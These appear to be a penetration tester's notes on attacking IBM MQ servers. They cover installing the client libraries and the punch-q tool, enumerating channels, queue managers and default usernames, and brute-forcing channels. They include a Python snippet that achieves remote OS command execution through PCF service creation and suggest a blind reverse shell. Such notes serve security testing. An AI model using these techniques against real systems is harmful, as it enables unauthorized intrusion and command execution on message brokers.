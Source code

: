 # Practical IBM MQ Penetration Testing notes

In order to interact with IBM MQ in any way, we need to install IBM MQ Client libraries, available only on IBM website. Account registration will be required to get hands on them.

### Step 1: Installing prerequisities

**Pre-requisites: IBM MQ Client**

1. Download the [IBM MQ V9.0.0.4 LTS Clients](http://ibm.biz/mq9004clients) - the file should be named: `9.0.0.4-IBM-MQC-LinuxX64.tar.gz` (_9.0.0.4 Client install image for IBM MQ on Linux X86-64_) - size: 397MB
2. Extract it to whatever directory.
3. Install debian/Kali/Ubuntu pre-requisities `apt install -y python-dev rpm`
4. Accept the license: `sudo ./mqlicense.sh -accept` or `sudo ./mqlicense.sh -text_only`
5. Do the following:

```
rpm --prefix /opt/mqm -ivh --nodeps --force-debian MQSeriesRuntime-9.0.0-4.x86_64.rpm
rpm --prefix /opt/mqm -ivh --nodeps --force-debian MQSeriesClient-9.0.0-4.x86_64.rpm
rpm --prefix /opt/mqm -ivh --nodeps --force-debian MQSeriesSDK-9.0.0-4.x86_64.rpm
```

### **Step 2: Pymqi & punch-q**

Having properly installed all of the MQ Client dependencies, we can now proceed to installing `pymqi` and `punch-q`:

1. Clone the punch-q repo: `git clone https://github.com/sensepost/punch-q`
2. Install them:
```
# pip install pymqi
# pip install -r requirements.txt
# python setup.py install
```

3. Before using `punch-q` specify MQ libraries path:

Either globally:
```
# sudo echo /opt/mqm/lib64 > /etc/ld.so.conf.d/mqm.x86_64.conf
# sudo ldconfig -v
```

or temporarily:
```
# export LD_LIBRARY_PATH=/opt/mqm/lib64
```

**One stop shop script installing IBM MQ Client libraries**

Assuming we have `9.0.0.4-IBM-MQC-LinuxX64.tar.gz` file in our current directory, following script applies on Kali x64 linux:
```
apt install -y python-dev rpm pcregrep
tar -xvzf 9.0.0.4-IBM-MQC-LinuxX64.tar.gz
pcregrep -vM '(?:echo "\s+This package was built for \$\{BUILD_PLATFORM\}")\n\s*exit 1' mqlicense.sh > /tmp/mqlicense.sh
cat /tmp/mqlicense.sh > mqlicense.sh
rm /tmp/mqlicense.sh
yes | sudo ./mqlicense.sh -accept
rpm --prefix /opt/mqm -ivh --nodeps --force-debian MQSeriesRuntime-9.0.0-4.x86_64.rpm
rpm --prefix /opt/mqm -ivh --nodeps --force-debian MQSeriesClient-9.0.0-4.x86_64.rpm
rpm --prefix /opt/mqm -ivh --nodeps --force-debian MQSeriesSDK-9.0.0-4.x86_64.rpm
pip install pymqi
echo /opt/mqm/lib64 > /etc/ld.so.conf.d/mqm.x86_64.conf
sudo ldconfig -v
ls | grep -v 9.0.0.4-IBM-MQC-LinuxX64.tar.gz | xargs rm -rf
git clone https://github.com/sensepost/punch-q
cd punch-q
pip install -r requirements.txt
python setup.py install
```

## Step 2: Handy notes on where to focus

**Internally:**

Having found several running processes with names such as:
`amqsvc.exe`, `amqxssvn.exe`, `amqrrmfa.exe`, `amqmtbrn.exe` 

These processes will be running impersonated as highly privileged service user name (according to the usernames table available below, at 2) . These users will act as local SAM users, which means we might be able to dump their NTLM passwords and crack them or even change them to whatever value we wish to facilitate successful IBM MQ server authentication.

**Externally:**

By using `punch-mq` we can:
1) Discover/Brute-Force available CHANNELS, 
2) Enumerate usernames (valid UserId fields)
3) Enumerate Queue Manager names
4) List available Channels or Queues as an authenticated user.
5) PUT, GET, Dump, Save, Sniff messages given an existent QUEUE name, as an authenticated user
6) Issue OS Commands by the use of `PCFExecute` functionality

In order to successfully authenticate to the IBM MQ server, we will need to have upfront following informatio prepared:
- Hostname/IP address
- TCP Port, typically `1414/tcp`
- Queue Manager name - easily obtained by the use of nmap scripts: `nmap -p 1414 -sV <host>` 
- Channel name (can be one of the below listed), at first start with: `SYSTEM.ADMIN.SVRCONN`
- Username (list of default system usernames below)
- Password

Incorrect access credentials will result in `pymqi` returning following response:
```
pymqi.MQMIError: MQI Error. Comp: 2, Reason 2035: FAILED: MQRC_NOT_AUTHORIZED
```

### 1) Default channel names:

_(in order to view system objects - click "Show System Objects" on upper right side of the MQ Explorer interface)_

```
SYSTEM.ADMIN.SVRCONN
SYSTEM.AUTO.SVRCONN
SYSTEM.DEF.SVRCONN
SYSTEM.DEF.SERVER
SYSTEM.DEF.CLNTCONN
```

### 2) Default Userid's depending on target OS version:

| OS Version     | UserId       |
|----------------|--------------|
| Linux/Unix/AIX | mqm          |
| Windows        | MUSR_MQADMIN |
| Other          | mqadmin      |

### 5) Important Administration QUEUE names:

```
SYSTEM.ADMIN.COMMAND.QUEUE
SYSTEM.DEFAULT.MODEL.QUEUE
SYSTEM.AUTH.DATA.QUEUE
```

### 6) Remote Code Execution

**6.1. Programmable Command Format (PCF) Services**

Being authenticated to the Queue Manager and a corresponding channel, we might be able to execute PCF (_Programmable Command Format_) commands (on MQ v6+) that would give us OS command execution by the use a concept called _services_:
- `MQCMD_CREATE_SERVICE`, 
- `MQCMD_START_SERVICE`, 
- `MQCMD_STOP_SERVICE`, 
- `MQCMD_DELETE_SERVICE`

That holds true as long as our impersonated user has sufficient permissions within OAM (Object Authority Manager) to perform requested PCF operation on the relevant objects.

Using `pymqi` or `punch-mq` this is as simple as invoking following code (source: [punch-mq](https://github.com/sensepost/punch-q/blob/master/libpunchq/cli.py) ):
```
    # create service
    qmgr = pymqi.connect(mqstate.qm_name, mqstate.channel, mqstate.get_host(),
                         mqstate.username, mqstate.password)
                         
    args = {
        pymqi.CMQC.MQCA_SERVICE_NAME: service_name,
        pymqi.CMQC.MQIA_SERVICE_CONTROL: pymqi.CMQC.MQSVC_CONTROL_MANUAL,
        pymqi.CMQC.MQIA_SERVICE_TYPE: pymqi.CMQC.MQSVC_TYPE_COMMAND,
        pymqi.CMQC.MQCA_SERVICE_START_COMMAND: str(cmd),
        pymqi.CMQC.MQCA_SERVICE_START_ARGS: str(args)
    }
    pcf = pymqi.PCFExecute(qmgr)
    pcf.MQCMD_CREATE_SERVICE(args)

    # start the service
    args = {pymqi.CMQC.MQCA_SERVICE_NAME: service_name}

    pcf = pymqi.PCFExecute(qmgr)
    pcf.MQCMD_START_SERVICE(args)

    # Giving the service some time to live
    time.sleep(wait)

    # delete service
    args = {pymqi.CMQC.MQCA_SERVICE_NAME: service_name}

    pcf = pymqi.PCFExecute(qmgr)
    pcf.MQCMD_DELETE_SERVICE(args)

    qmgr.disconnect()
```

Incomming command will then be executed most likely as a root user. `punch-mq` does not implement any way of getting command's result back so we will have to go blindly here, preferably just using reverse-shell oneliner. 

If we wish to have our commands' results back, then more code will need to be added facilitating specification of output Queue where PCF should PUT it's results, then manual Queue read by the use of GET operation to retrieve OS command's outcome. Such a Queue could be created based on `SYSTEM.DEFAULT.MODEL.QUEUE` template. Martyn Ruks goes in details on that in his paper (ref: 1, page 24).

**6.2. Use of Triggers**

Martyn Ruks described (ref: 1, page 30) that we may also succeed invoking system commands by defining event triggers that would execute specified command as soon as preconfigured event fired up our malicious trigger.


## Additional sources

1. [Martyn Ruks: WebSphere MQ Security. White Paper – Part 1](https://labs.f-secure.com/assets/141/original/mwri_websphere-mq-security-white-paper-part1_2008-05-06.pdf)
2. [Martyn Ruks: MQ Jumping](https://www.defcon.org/images/defcon-15/dc15-presentations/dc-15-ruks.pdf)
3. [punch-q](https://github.com/sensepost/punch-q)
4. [pymqi installation issue](https://github.com/dsuch/pymqi/issues/15#issuecomment-124772995)